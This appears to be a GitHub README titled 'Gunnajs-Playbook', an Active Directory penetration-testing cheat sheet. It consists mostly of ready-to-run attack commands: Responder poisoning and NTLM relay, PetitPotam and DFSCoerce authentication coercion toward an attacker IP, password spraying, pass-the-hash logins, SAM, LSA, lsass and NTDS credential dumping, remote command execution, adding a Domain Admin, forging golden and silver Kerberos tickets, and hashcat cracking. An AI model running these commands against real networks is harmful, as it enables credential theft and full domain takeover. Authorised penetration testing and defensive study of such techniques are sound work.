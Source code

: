 https://github.com/NotMedic/NetNTLMtoSilverTicket

# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader.jpg)

# Toolbox
<details>
  <summary> Utils </summary> 

  ### NMAP
  https://nmap.org/
  
  ### linWinPwn - Active Directory Vulnerability Scanner
  https://github.com/lefayjey/linWinPwn
  <details>
    <summary> Installation </summary> 
    
    #### Install the dependency NetExec
    ```bash
    apt install pipx git
    pipx ensurepath
    pipx install git+https://github.com/Pennyw0rth/NetExec
    ```  
    
    #### Git clone the repository and make the script executable
    ```bash
    git clone https://github.com/lefayjey/linWinPwn
    cd linWinPwn; chmod +x linWinPwn.sh
    ```
    #### Install requirements using the `install.sh` script (using standard account)
    ```bash
    chmod +x install.sh
    ./install.sh
    ```  
  </details>
  
  ### BloodHound
  https://github.com/BloodHoundAD/BloodHound
  <details>
    <summary> Installation </summary> 
    
    ```bash
    apt-get install bloodhound
    ```
    ```bash
    neo4j console
    ```
    #### Navigate to http://localhost:7474/ 
  </details>
  
  ### Responder
  https://github.com/lgandx/Responder
  
  ### NetExec
  https://www.netexec.wiki/
  <details>
    <summary> Installation </summary> 
  
    #### Installation
    ```bash
    apt install pipx git
    pipx ensurepath
    pipx install git+https://github.com/Pennyw0rth/NetExec
    ```
    #### Integrate Bloodhound
    ```bash
    nano ~/.nxc/nxc.conf
    ```
    ```bash
    [BloodHound]
    bh_enabled = True
    bh_uri = 127.0.0.1
    bh_port = 7687
    bh_user = <username>
    bh_pass = <password>
    ```
  
  </details>
  
  ### Evil-WinRM
  https://github.com/Hackplayers/evil-winrm
  <details>
    <summary> Installation </summary>
    
    ```bash
    gem install evil-winrm
    ```
  </details>
  
  ### FindUncommonShares
  https://github.com/p0dalirius/FindUncommonShares
  
  <details>
    <summary> Installation </summary> 
    
    ```bash
    git clone https://github.com/p0dalirius/FindUncommonShares
    ```
  </details>
  
  ### lnkbomb
  https://github.com/dievus/lnkbomb
  <details>
    <summary> Installation </summary> 
  
    #### Install prerequirements
    ```bash
    pip install -r requirements.txt
    ```
    #### Clone this repo
    ```bash
    git clone https://github.com/dievus/lnkbomb
    ```
  </details>
  
  ### PetitPotam
  https://github.com/topotam/PetitPotam
  
  ### DFSCoerce
  https://github.com/Wh04m1001/DFSCoerce
  
  ### Impacket
  https://github.com/fortra/impacket
  
  ### pypykatz
  https://github.com/skelsec/pypykatz
  <details>
    <summary> Installation </summary> 
  
    #### Install prerequirements
    ```bash
    pip3 install minidump minikerberos aiowinreg msldap winacl
    ```
    #### Clone this repo
    ```bash
    git clone https://github.com/skelsec/pypykatz.git
    cd pypykatz
    ```
    #### Install it
    ```bash
    python3 setup.py install
    ```
  </details>
  
  ### breach-parse
  https://github.com/hmaverickadams/breach-parse
  
  ### PRET
  https://github.com/RUB-NDS/PRET
  <details>
    <summary> Installation </summary> 
    
    ```bash
    git clone https://github.com/RUB-NDS/PRET && cd PRET
    ```
    ```bash
    python -m pip install colorama pysnmP
    ```
  </details>

</details>

# Wordlists
<details>
  <summary> Lists </summary> 
  
  ### Generate wordlist
  https://zzzteph.github.io/weakpass/
  
  ### Top 10 million
  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)
  
  ### Crackstation
  https://crackstation.net/files/crackstation.txt.gz (14.6 GB)
  
  ### Large p-list
  https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)
  
  ### Rockyou2021
  https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
</details>

# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```bash
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```bash
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```bash
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```bash
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```bash
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```bash
  nltest /dclist:<domainname>
  ```
</details>

# Acitve directory enumeration
<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using crackmapexec
      - Anonymous enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```bash
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - crackmapexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```bash
  sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>

# MITM
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```bash
  responder -I eth0
  ```

  ### Force lm downgrade
  ```bash
  responder -I eth0 --lm
  ```
  
  ### DHCP poisining
  ```bash
  responder -I eth0 -d
  ```
 </details>
 <details>
  <summary> lnkbomb </summary> 
  
  ### Create a lnk file for a share with read/write rights
  ```bash
  python3 lnkbomb.py -t <target_IP> -a <attacker_IP> -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows
  ```
   
  ### Remove the lnk file
  ```basb
  python3 lnkbomb.py -t <target_IP> -a <attacker_IP> -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows -r <file_name.url>
  ```
    
</details>
<details>
  <summary> Crackmapexec NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for TLMRelayx
  ```bash
  crackmapexec smb <IPs> --gen-relay-list <outputIPs.txt>
  ```

  ### NTLMRelayx
  ```bash
  sudo python3 ntlmrelayx.py -of <dumofile.txt> -tf <outputIPs.txt> -smb2support
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```bash
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```

### Kicksart responder then
  ```bash
  sudo responder -I eth0 -dwv
  ```
</details>

<details>
  <summary> PetitPotam </summary> 
  
  ### Force NTLM authentication
  ```bash
  python3 PetitPotam.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 
  
<details>
  <summary> DFSCoerce </summary> 
  
  ### Force NTLM authentication
  ```bash
  python3 dfscoerce.py -d <Domain_Name> -u <AD_user> -p <AD_password> <attacker_IP> <target_IP>
  ```
</details> 

# Password Spraying

<details>
  <summary> NetExec Password spray </summary> 
  
  ### Spray a password on a user list
  ```bash
  netexec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
  ```

</details>

# Authentication
    
<details>
  <summary> NetExec domain authentication </summary> 
  
  ```bash
  sudo NetExec smb <Domain_Controller_IP> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> 
  ```

</details> 
  
<details>
  <summary> NetExec local authentication </summary> 
  
  ```bash
  NetExec smb <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

<details>
  <summary> NetExec rdp authentication </summary> 
  
  ```bash
  NetExec rdp <target_IP> -u <username> -H <hash[LM:NT]> --local-auth 
  ```

</details> 

# Share enumeration

<details>
  <summary> List readable or writable shares </summary> 

```bash
NetExec smb <target_IP> -u <username> -p <password>  --shares --filter-shares READ WRITE
```

</details>

<details>
  <summary> List uncommon shares </summary> 

```bash
./FindUncommonShares.py -u <username> -p <password> -d <AD_domain> --dc-ip <Domain_Controller_IP> --check-user-access
```

</details> 

<details>
  <summary> Mount and unmount shares </summary> 

### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```bash
sudo umount <./folder>
```

### Search for keywords in files
```bash
grep -i <keyword> *
```

</details> 

# Credential dumping

<details>
  <summary> NetExec domain authentication </summary> 

  ### Dump NT:hash with masky with domain user
  #### Get ADCS server name
  ```bash
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -M adcs
  ```
  #### Retrieve the NT hash using PKINIT
  ```bash
  NetExec ldap <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M masky -o CA=<'ADCS_server_name'>
  ```
  
  ### Dump SAM with domain user
  ```bash
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> --sam
  ```
  
   ### Dump LSA with domain user
  ```bash
  NetExec smb <target_IP> -u <username> -p <password> -H <hash_NT]> --lsa
  ```
</details> 

<details>
  <summary> NetExec local authentication </summary> 
  
  ### Dump SAM on local computer
  ```bash
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --sam
  ```
  
  ### Dump LSA on local computer
  ```bash
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth --lsa
  ```

  ### Dump lsass with hash_spider to recursively using BloodHound to find local admins path (adminTo)
  ```bash
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --local-auth -M hash_spider
  ```
  
</details> 

<details>
  <summary> NetExec dump with ReadLAPSPassword rights </summary> 

  ### Check if the user can read LAPS
  ```bash
  NetExec ldap <AD_domain> -u <username> -p <password> -H <hash[LM:NT]> -M laps
  ```
  
  ### Dump SAM 
  ```bash
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -M laps --sam
  ```
  
  ### Dump LSA 
  ```bash
  NetExec smb <target_IP> -u <username> -p <password> -H <hash[LM:NT]> --M laps --lsa
  ```
  
</details> 

<details>
  <summary> linWinPwn </summary> 
  
### With administrator Account (using password, NTLM hash or Kerberos ticket)
- All of the "Standard User" checks
- Module pwd_dump
    - LAPS and gMSA dump
    - secretsdump on all domain servers
    - NTDS dump using impacket, crackmapexec and certsync
    - Dump lsass on all domain servers using: procdump, lsassy, nanodump, handlekatz, masky 
    - Extract backup keys using DonPAPI, HEKATOMB
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> -H <hash[LM:NT]> -K <kerbticket[./krb5cc_ticket]> -o <output_dir>
```
</details> 

<details>
  <summary> Examine lsass dump with pypykatz </summary> 

```bash
pypykatz lsa minidump lsass.DMP
```
</details> 

# Remote Code Execution

<details>
  <summary> NetExec </summary> 
  
  ### Executes command via the follwoing protocols: 
  * `wmiexec` executes commands via WMI
  * `atexec` executes commands by scheduling a task with windows task scheduler
  * `smbexec` executes commands by creating and running a service
  
  #### command
  ```bash
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]]> -x <command>
  ```
  #### PowerShell
  ```bash
  NetExec <protocol> <target_IP> -u <username> -p <password> -H <hash[LM:NT]> -X <command>
  ```
</details> 

<details>
  <summary> Evil-WinRM </summary> 
  
  ```bash
  evil-winrm -i <target_IP> -u <username> -p <password> -H <hash[LM:NT]>
  ```
</details> 

<details>
  <summary> Command to add a new Domain Admin </summary> 
  
  ```bash
  'net group "Domain Admins" <username> /add /domain'
  ```
</details> 
  
# golden and silver tickets
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```bash
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```bash
klist
```

#### Execute remote commands with any of the following by using the TGT
```bash
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```bash
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```bash
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```bash
  pret.py target {ps,pjl,pcl}
  ```
</details>

## Hash cracking
<details>
  <summary> Hashcat </summary> 
  
  ### LM
  ```bash
  hashcat64.exe -m 3000 -a 3 LM-hashes.txt -o cracked.txt
  ```

  ### NTLM
  ```bash
  hashcat64.exe -m 1000 -a 3 NTLM-hashes.txt -o cracked.txt
  ```

  ### NTLMv1
  ```bash
  hashcat64.exe -m 5500 -a 3 NTLMv1-hashes.txt -o cracked.txt
  ```

  ### NTLMv2
  ```bash
  hashcat64.exe -m 5600 -a 0 NTLMv2-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```bash
  hashcat64.exe -m 18200 -a 0 asrep-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```bash
  hashcat64.exe -m 13100 -a 0 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```bash
  hashcat64.exe -m 19600 -a 0 krb5tgsaes128-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```bash
  hashcat64.exe -m 19700  -a 0 krb5tgsaes256.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```bash
  hashcat64.exe -m 19800  -a 0 krb5tetype17.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```bash
  hashcat64.exe -m 19900  -a 0 krb5tetype18.txt <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```bash
  hashcat64.exe -m 2100 -a 0 mscache2-hashes.txt <passlist.txt> -o cracked.txt
  ```
</details>
